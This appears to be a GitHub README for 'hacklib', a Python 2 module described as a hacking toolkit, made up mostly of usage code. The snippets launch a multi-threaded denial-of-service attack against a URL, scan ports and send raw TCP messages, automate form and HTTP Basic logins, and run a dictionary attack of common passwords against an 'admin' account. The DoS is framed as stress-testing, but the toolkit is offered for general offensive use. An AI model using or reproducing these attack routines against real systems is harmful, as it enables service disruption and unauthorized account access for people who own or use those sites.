 # hacklib
![MIT License](https://img.shields.io/github/license/mashape/apistatus.svg)
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)
##### Toolkit for hacking enthusiasts using Python.
hacklib is a Python module for hacking enthusiasts. It is currently in its barebones stages.

#### Examples of Usage
-
Multi-threaded Denial of Service (DOS) Stress-Testing:
```python
import hacklib

dos = hacklib.DOSer()
dos.launch('http://yourwebsite.com', duration=30, threads=50)
```
-
Port Scanning:
```python
from hacklib import *

ps = PortScanner()
ps.scan(getIP('yourwebsite.com'))
# By default scans the first 1024 ports with 1 second timeout. Use ps.scan(IP, port_range=n, timeout=i) to change default

# After a scan, open ports are saved within ps for reference
if ps.portOpen(80):
    # Establish a TCP stream and sends a message
    send(getIP('yourwebsite.com'), 80, message='GET HTTP/1.1 \r\n')
```
-
Universal Login for almost all HTTP/HTTPS form-based logins and HTTP Basic Authentication logins:

```python
import hacklib

ac = hacklib.AuthClient()
# AuthClient uses the mechanize module for form-based logins

# Attempts to login and return the HTML of the resulting page
htmldata = ac.login('http://yourwebsite.com/login', 'username', 'password')


# Returns False if login fails using HTTP Basic Authentication
if htmldata != False:
    print 'Login Success'

# For form-based logins, returns HTML whether login works or not.
# Returns False if resulting page has the same URL as the login page
if htmldata and 'try again' not in htmldata:
    print 'Login Success'
```
Simple Dictionary Attack using AuthClient:
```python
import hacklib

ac = hacklib.AuthClient()
# Get the top 100 most common passwords
passwords = topPasswords(100)

for p in passwords:
    htmldata = ac.login('http://yourwebsite.com/login', 'admin', p)
    if htmldata and 'try again' not in htmldata:
        print 'Password is', p
        break
```
